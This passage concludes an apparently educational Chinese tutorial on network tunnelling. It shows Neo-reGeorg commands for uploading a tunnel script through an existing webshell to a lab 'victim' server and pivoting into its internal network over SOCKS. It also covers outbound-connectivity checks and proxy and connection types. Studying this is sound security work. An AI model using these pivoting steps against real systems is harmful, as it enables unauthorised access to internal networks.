[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203844-46b169ee-e8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203849-49c2b458-e8e6-1.png)

受害者（双网卡），模拟 WEB 服务器

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203854-4cc22eb8-e8e6-1.png)

1、在攻击机上使用 Python 生成 tunnel.(aspx|ashx|jsp|jspx|php) 脚本，设置密码并上传到 WEB 服务器

```plain
python3 neoreg.py generate -k password
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203902-51bf7e8e-e8e6-1.png)

2、在获取 webshell 的情况下，根据网站语言类型上传相应的脚本值 web 服务器中

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203909-559f78d8-e8e6-1.png)

3、连接隧道

```plain
python3 neoreg.py -k password -u http://192.168.11.133:8003/tunnel.php -p 2333
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203917-5a664e6e-e8e6-1.png)

4、利用 proxifier 连接 socks，访问内网资源

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203923-5de50d78-e8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203927-609d0c8c-e8e6-1.png)

隧道流量如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203934-64a42afe-e8e6-1.png)

## 七、扩展

### 出网类型

| 协议  | 命令  |
| --- | --- |
| ICMP | ping ip/domain |
| HTTP | curl ip or domain |
| DNS | nslookup domain 8.8.8.8 |
| TCP/UDP | telnet ip port |

### 代理类型

正向代理（Forward Proxy）：代理服务器向外部网络发送请求，通常被用于内部网络无法直接访问外部网络的情况。在这种情况下，客户端向代理服务器发送请求，并在代理服务器上处理并转发请求，作为客户端的代理，代理服务器会将请求发送到目标服务器，接收响应，然后转发给客户端。（例子：公网 frp 作为客户端，内网主机作为服务端）

反向代理（Reverse Proxy）：代理服务器向内部网络发送请求，通常被用于外部网络无法直接访问内部网络的情况。在这种情况下，代理服务器接收外部网络的请求并在代理服务器上进行处理，并将请求转发到内部服务器。当内部服务器发送响应时，代理服务器将响应返回给外部客户端，从而隐藏了内部服务器的真实 IP 地址和其他信息。（例子：公网 frp 作为服务端，内网主机作为客户端）

### 连接类型

正向连接：客户端向服务器发起连接请求，服务器接受请求并建立连接（例子：受害者主机具备公网 IP 可出网，此时受害者主机监听一个端口，攻击者主动连接）

反向连接：服务器主动向客户端发起连接请求，客户端接受请求并建立连接（例子：内网主机能出网，但没有公网 IP，攻击者无法直接连接，此时攻击者监听一个端口，受害者主动连接攻击者端口）

## 八、总结

通过学习隧道相关知识，选取了部分工具重新熟悉了各种隧道的搭建，虽然协议上有些许差异，但其逻辑上大差不差。文章主要还是工具上的使用以及协议上的理解。

## 九、参考

```plain
https://mp.weixin.qq.com/s/DlhqE6Yxo9IEXBKRl5epIA
https://github.com/esrrhs/pingtunnel
https://forum.butian.net/share/400
https://github.com/iagox86/dnscat2
https://cloud.tencent.com/developer/article/2130053
https://xz.aliyun.com/t/2214
https://blog.csdn.net/qq_44159028/article/details/120748587
https://mp.weixin.qq.com/s/RiFrP2IurA3Z5JcmWE0Vfg
https://mp.weixin.qq.com/s/_g3rXXyq7HxMM1FVhs2Y1g
https://github.com/fatedier/frp
https://github.com/L-codes/Neo-reGeorg
```
